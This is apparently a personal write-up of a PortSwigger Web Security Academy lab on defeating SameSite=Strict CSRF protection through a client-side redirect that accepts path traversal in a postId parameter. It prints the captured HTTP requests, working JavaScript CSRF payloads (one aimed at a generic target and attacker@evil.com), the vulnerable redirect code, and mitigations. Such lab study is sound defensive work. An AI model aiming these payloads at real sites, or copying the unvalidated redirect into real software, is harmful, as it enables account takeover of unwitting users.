


# Lab 08: SameSite Strict Bypass via Client-Side Redirect

> **Topic**: CSRF Vulnerabilities
> **Lab Number**: 08
> **Platform**: PortSwigger Web Security Academy

## Category
CSRF — SameSite Strict Bypass via Client-Side Redirect

## Vulnerability Summary
The application sets its session cookie with `SameSite=Strict`, which blocks the cookie on all cross-site requests — including top-level navigations. However, the application contains a client-side redirect that performs a same-site navigation using attacker-controlled input (e.g. a URL parameter). An attacker can chain a cross-site request to a page that triggers this redirect, causing the victim's browser to follow a same-site navigation to the target endpoint — with the `SameSite=Strict` cookie included, because the final request originates from within the same site.

## Attack Methodology

### Step 1: Recon
Logged in and intercepted the email-change request:

```
POST /my-account/change-email HTTP/2
Host: 0ad6001304924a628032303700ed0030.web-security-academy.net
Cookie: session=BESUvjwxMoeAMC8RyIAXmoBDCiVibUdb

email=test%40test.com&submit=1
```

No CSRF token. The only protection is `SameSite=Strict` on the session cookie.

### Step 2: Finding the Client-Side Redirect
Discovered that posting a comment on a blog post triggers a "Thank you for your comment!" page that performs a client-side redirect using a `postId` parameter in the URL:

```
/post/comment/confirmation?postId=../my-account/change-email%3femail%3dtest%40attacker.com%26submit%3d1
```

The redirect logic uses `postId` to construct the redirect destination client-side, without validation. The resulting navigation is a **same-site** request — the browser treats it as originating from the same site, so the `SameSite=Strict` cookie is sent.

### Step 3: Verifying the Bypass
Sent the crafted GET request directly in Burp Repeater with the victim's session cookie:

```
GET /my-account/change-email?email=wiener-test%40attacker.com&submit=1 HTTP/2
Host: 0ad6001304924a628032303700ed0030.web-security-academy.net
Cookie: session=BESUvjwxMoeAMC8RyIAXmoBDCiVibUdb
Sec-Fetch-Site: same-origin
Referer: https://0ad6001304924a628032303700ed0030.web-security-academy.net/my-account?id=wiener

→ HTTP/2 302 Found
   Location: /my-account?id=wiener
```

Email changed. The endpoint accepts a GET request with `submit=1`.

### Step 4: Crafting the Exploit
The attack chain:
1. Victim visits the attacker's page (cross-site)
2. The page redirects victim to `/post/comment/confirmation?postId=<path-traversal-payload>`
3. The confirmation page's client-side JS performs a same-site redirect to `/my-account/change-email?email=...&submit=1`
4. Browser sends `SameSite=Strict` cookie — the request is same-site at this point

```html
<script>
document.location = "https://0ad6001304924a628032303700ed0030.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email%3femail%3dwiener-test%40attacker.com%26submit%3d1";
</script>
```

### Step 5: Delivering the Exploit
- Pasted the payload into the Exploit Server body
- Clicked **Store** then **Deliver exploit to victim**

### Step 6: Results





Lab marked as **Solved** — victim's email successfully changed.

## Technical Root Cause

```javascript
// ❌ Vulnerable — client-side redirect uses unvalidated URL parameter
const postId = new URLSearchParams(location.search).get('postId');
// postId can be: ../my-account/change-email?email=...&submit=1
document.location = '/post/' + postId;   // path traversal → arbitrary same-site redirect

// ✅ Secure — validate postId is a numeric post identifier only
const postId = new URLSearchParams(location.search).get('postId');
if (!/^\d+$/.test(postId)) throw new Error('Invalid postId');
document.location = '/post/' + postId;
```

### Why This Works

| Scenario | Request Origin | SameSite=Strict Sends Cookie? | Result |
|----------|---------------|-------------------------------|--------|
| Direct cross-site navigation | Cross-site | ❌ No | ❌ Blocked |
| Cross-site → same-site JS redirect | Same-site (after redirect) | ✅ Yes | ✅ Yes — **vulnerable** |

`SameSite=Strict` only evaluates the **initiating** context of each individual request. Once the victim is on the same site (even via a cross-site initial load), subsequent same-site navigations include the cookie.

## Impact
- **SameSite=Strict Bypassed**: The strongest SameSite setting is defeated by a single open redirect on the same origin
- **Account Takeover**: Email change → password reset to attacker's inbox → full takeover
- **No CSRF Token Required**: Endpoint had no token — SameSite=Strict was the sole defence
- **Path Traversal Amplifies the Risk**: Any open redirect or path-traversal-based redirect on the site exposes every protected endpoint

## Proof of Concept

**Minimal**
```html
<script>
document.location = "https://TARGET/post/comment/confirmation?postId=../my-account/change-email%3femail%3dattacker@evil.com%26submit%3d1";
</script>
```

**Full Exploit (as used)**
```html
<script>
document.location = "https://0ad6001304924a628032303700ed0030.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email%3femail%3dwiener-test%40attacker.com%26submit%3d1";
</script>
```

## Key Takeaways
1. **SameSite=Strict Is Not Unbreakable**: Any open redirect or client-side redirect using unvalidated input on the same origin can be used as a trampoline to carry the Strict cookie to a sensitive endpoint.
2. **The Cookie Policy Applies Per Request, Not Per Chain**: Each request is evaluated independently. Once the victim's browser is navigating within the same site, Strict cookies flow freely.
3. **Path Traversal in Redirect Parameters**: A `postId` parameter that accepts `../` sequences is a path traversal bug — validate that it is a numeric ID only.
4. **Open Redirects Are CSRF Primitives**: On a SameSite=Strict site, an open redirect is as dangerous as a CSRF token bypass.
5. **Defence in Depth**: CSRF tokens would have stopped this attack even with a working redirect bypass — always layer defences.

## Mitigation

### 1. Validate Redirect Parameters Server-Side
```python
# ✅ Only allow numeric postId values
post_id = request.GET.get('postId', '')
if not post_id.isdigit():
    return HttpResponseBadRequest('Invalid postId')
redirect_url = f'/post/{post_id}'
```

### 2. Add CSRF Tokens (defence in depth)
```python
# SameSite alone is insufficient — add token validation
def change_email(request):
    validate_csrf(request)
    ...
```

### 3. Use an Allowlist for Redirects
```python
ALLOWED_REDIRECT_PATHS = {'/post/1', '/post/2', ...}
if redirect_url not in ALLOWED_REDIRECT_PATHS:
    return HttpResponseForbidden()
```

### 4. Avoid GET-Based State Changes
```python
# Require POST for any state-changing action
@require_POST
def change_email(request):
    ...
```

## References
- [PortSwigger CSRF Lab - SameSite Strict Bypass via Client-Side Redirect](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)
- [PortSwigger SameSite Cookie Restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions)
- [OWASP Unvalidated Redirects and Forwards](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium
- PortSwigger Exploit Server

---

*Lab completed on: 2026-04-17*
*Writeup by vibhxr*
